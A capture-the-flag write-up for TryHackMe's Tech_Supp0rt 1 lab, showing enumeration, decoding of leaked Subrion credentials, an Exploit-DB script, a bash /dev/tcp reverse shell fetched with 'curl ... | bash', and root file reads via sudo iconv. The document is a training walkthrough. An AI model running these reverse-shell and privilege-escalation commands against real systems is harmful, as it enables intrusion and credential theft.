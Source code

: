 #  Tech_Supp0rt 1 CTF writeup | Tryhackme.com

Hack a scammer's website and ruin their day.

First scan the ports with rustscan:


![rsc1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/rustscan_1.png)


![rsc1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/rustscan_2.png)

Ports:\
Open 10.10.197.14:22 - SSH\
Open 10.10.197.14:80 - HTTP\
Open 10.10.197.14:139 - NetBIOS\
Open 10.10.197.14:445 - SMB

Now let's inspect this IP in our browser.

![indexhtml](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/indexhtml.png)

It is a basic apache webserver welcome site, but there's probably more hidden underneath. Find it out with gobuster!

![gobuster](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/gobuster.png)

*/test* and */wordpress* are the directories we are looking for here so let's check both of them.

**TEST**\
![test](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/test.png)

Test is basically a static scammer site, can't really click anywhere. I've looked into the source code but besides the images not much seems to be here.
Let's try wordpress maybe we will find more useful stuff there.

**WORDPRESS**\
![wp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/wordpress.png)

Okay so here we could browse all the tabs or be lazy and run gobuster. I did both.

By browsing this directory I found a wordpress admin login site and some Hello World comments by the user named: **support**

Gobuster basically confirmed this

`gobuster dir -u http://10.10.197.14/wordpress -w /usr/share/dirb/wordlists/common.txt -x php,html,txt,sh`

    /license.txt          (Status: 200) [Size: 19915]
    
    /readme.html          (Status: 200) [Size: 7345]
    
    /wp-admin             (Status: 301) [Size: 325] [--> http://10.10.197.14/wordpress/wp-admin/]
    
    /wp-includes          (Status: 301)[Size:328][-->http://10.10.197.14/wordpress/wp-includes/]

I did the same with /test but haven’t found anything useful there

At this point we hit a dead end, so our only remaining option is to check SMB shares and find something (hopefully).

![smb1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/smbclient.png)

![smb2](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/smb2.png)

Success! The first share didn't work but websvr had this interesting enter.txt.\
Cat this out.

`cat enter.txt`

    GOALS

    =====

    1)Make fake popup and host it online on Digital Ocean server
    2)Fix subrion site, /subrion doesn't work, edit from panel
    3)Edit wordpress website



    IMP
    ===
    Subrion creds
    |->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
    Wordpress creds
    |->

Cooked with magical formula suggests that we are dealing with a hashed pw here. First I tried crackstation and hashanalyzer but both attempts failed.\
Cyberchef on the other hand could work perfectly with.. the magic formula.

![chef](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/cyberchef.png)

That was easy, we found a password: **Scam2021**

The note left by the scammer will lead us to our next step if we take it literally. Let's navigate to */subrion/panel*

![subrion](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/subrion%20panel.png)

It is worth noting what version the CMS has. Probably it would be a good idea to search any vulnerabilities (if there are any).\
We found just what we needed:
https://www.exploit-db.com/exploits/49876

**THE EXPLOIT:**
As we already know the username and the password, using this script will be no big problem for us.

![python exploit](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/python%20exploit.png)

With whoami we see that we have user permissions, and an inconvenient shell. We can't really cd or use useful commands as we have no standard output.\
At least we can see what lies in the home directory and what users we have to deal with.

**scamsite** Is our guy.

![usr_scamsite](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/user_scamsite.png)


Ideally we should have a better shell, as this one doesn't operate that great. I used a bash reverse shell for that, while hosting the shell code `bash -i >& /dev/tcp/IP/PORT 0>&1` on a local python webserver.\


`curl <OUR IP>:8000/shell.sh | bash `


![rshell1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/bash%20reverse%20shell.png)

Now that we have a better shell we can run linpeas.sh from our computer:

![lp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/wp_config_PW.png)

We have found suspicious info here. Remember user 'support'? Grab the PW and try to log in with SSH.\
`Use the following credentials:`

    scamsite
    ImAScammerLOL!123!


![sshlogin](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/login%20to%20SSH.png)

Now we are getting close.

`sudo -l` and we see our key to get the root.txt

    User scamsite may run the following commands on TechSupport:
        (ALL) NOPASSWD: /usr/bin/iconv
      
      
After searching it on GTFObins here's what we find:

`LFILE=file_to_read`

`iconv -f 8859_1 -t 8859_1 "$LFILE"`

![ROOT](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/ROOT..png)



get the root flag
##### author: Dániel Varkoly
